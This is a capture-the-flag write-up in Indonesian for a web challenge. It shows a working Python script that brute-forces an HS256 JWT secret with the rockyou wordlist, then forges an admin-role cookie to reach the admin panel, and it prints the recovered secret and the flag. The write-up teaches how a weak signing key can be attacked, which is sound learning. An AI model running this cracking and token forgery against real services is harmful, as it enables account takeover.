






## TokoRoti

**Difficulty:** Easy-Medium

**Author:** maul

**URL:** [http://ctf.noctralupra.space:10305](http://ctf.noctralupra.space:10305)

### Description

NoctraLupra bikin usaha toko roti wkwkwk

### Solution



Saya mulai dengan membuka URL yang diberikan dan melakukan pendaftaran akun baru (register) lalu login seperti biasa. Setelah berhasil login, web menampilkan panel admin yang terkunci pada dashboard. Dugaan awal panel admin bisa diakses dengan mengubah cookie payload yang dibuat melalui jwt. 



Dari sini saya menaruh token tersebut ke jwt.io untuk menganalisis header dan payload: header menunjukkan penggunaan algoritma HMAC-SHA256 (`HS256`) dan payload berisi `peran` yang bernilai `karyawan`.

```python
import jwt
import sys
from tqdm import tqdm

def load_wordlist(path):
    with open(path, 'r', encoding='latin-1') as f:
        return [line.strip() for line in f.readlines()]

def jwt_bruteforce(token, wordlist_path, algorithm='HS256'):
    wordlist = load_wordlist(wordlist_path)
    header = jwt.get_unverified_header(token)

    print(f"[i] JWT Algorithm: {header.get('alg', algorithm)}")
    print(f"[i] Total passwords to try: {len(wordlist)}")

    for secret in tqdm(wordlist, desc="Bruteforcing"):
        try:
            payload = jwt.decode(token, secret, algorithms=[algorithm])
            print("\n[+] Secret key found:", secret)
            print("[+] Decoded payload:", payload)
            return secret
        except jwt.InvalidSignatureError:
            continue
        except jwt.DecodeError:
            continue
        except Exception as e:
            print("\n[!] Unexpected error:", e)
            break

    print("\n[-] Secret key not found.")
    return None

if __name__ == '__main__':
    if len(sys.argv) != 3:
        print(f"Usage: python {sys.argv[0]} <jwt_token> <path_to_wordlist.txt>")
        sys.exit(1)

    jwt_token = sys.argv[1]
    wordlist_path = sys.argv[2]
    jwt_bruteforce(jwt_token, wordlist_path)
```

Langkah berikutnya, saya mencoba mencari tahu apakah server menandatangani JWT dengan secret yang dapat ditebak. Untuk itu saya menjalankan script bruteforce JWT menggunakan wordlist `rockyou.txt`. Script tersebut memeriksa setiap kata di wordlist dengan mencoba melakukan `jwt.decode(token, secret, algorithms=[algorithm])`; ketika decode berhasil berarti secret yang benar ditemukan.



Dengan begitu, proses bruteforce berhasil menemukan secret JWT: `birahi`. Penemuan ini mengindikasikan server hanya memverifikasi signature HMAC menggunakan kunci yang dapat ditebak dari dictionary — sebuah kelemahan umum jika kunci tidak acak/kuat.



Dari sini saya membuat token baru yang mengubah klaim `peran` dari `karyawan` menjadi `admin` dan men-sign kembali menggunakan secret `birahi` menggunakan jwt.io. 



Langkah berikutnya saya mengganti token yang dipakai pada web. Token disimpan sebagai cookie di field token_akses, lalu ganti nilai cookienya dengan token baru dan mengakses panel admin. 



Dari akses panel admin, server merespons dengan halaman khusus admin yang berisi flag.

### Flag

NCLPS1{l3mah_4m4t_jwtnya_hahaha}
